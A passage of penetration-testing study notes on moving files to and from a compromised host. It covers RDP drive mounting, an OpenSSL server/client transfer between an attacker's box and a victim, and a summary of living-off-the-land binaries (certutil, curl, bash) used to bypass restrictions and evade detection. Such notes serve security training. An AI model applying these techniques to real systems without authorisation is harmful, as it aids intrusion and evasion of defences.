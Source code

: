 ### RDP (Remote Desktop Protocol)

- **Overview**: Native Windows remote access; supports file transfers via copy-paste or drive mounting.
- **Methods**:
    - **Copy-Paste**: Right-click copy from source, paste in RDP session.
    - **Drive Mounting (Linux)**:
        - `rdesktop <IP> -u <user> -p <pass> -r disk:linux=/path/to/folder`.
        - `xfreerdp /v:<IP> /u:<user> /p:<pass> /drive:linux,/path/to/folder`.
    - **Drive Mounting (Windows)**:
        - `mstsc.exe` → "Local Resources" → Select drive → Connect.
- **Pitfalls**: Copy-paste may fail across OSes; drive access is session-specific.
- **Tip**: Use for quick, GUI-based transfers.

### OpenSSL (Bonus Method)

- **Overview**: Uses SSL/TLS for secure file transfers.
- **Steps**:
    - Create certificate: `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem`.
    - Server (Pwnbox): `openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < file`.
    - Client (Compromised): `openssl s_client -connect <IP>:80 -quiet > file`.
- **Pitfalls**: Requires OpenSSL; complex setup.
- **Tip**: Encrypts transfers, evading some detection.

---

### Key Takeaways

- **Programming Languages**: Python, PHP, Ruby, Perl, JS, and VBScript offer flexible one-liners or scripts for file transfers across platforms.
- **LOLBins/GTFOBins**: Native binaries like `certreq`, `certutil`, `curl`, and `bash` minimize footprint and bypass tool restrictions.
- **Miscellaneous**: Netcat/Ncat, PowerShell Remoting, RDP, and OpenSSL provide versatile options for varied scenarios.
- **Adaptability**: Test multiple methods; environments differ in restrictions.
- **Verification**: Use `md5sum` or `Get-FileHash` to ensure integrity.
- **Practice**: Build muscle memory with labs (e.g., Active Directory Enumeration, Pivoting, Shells & Payloads).

---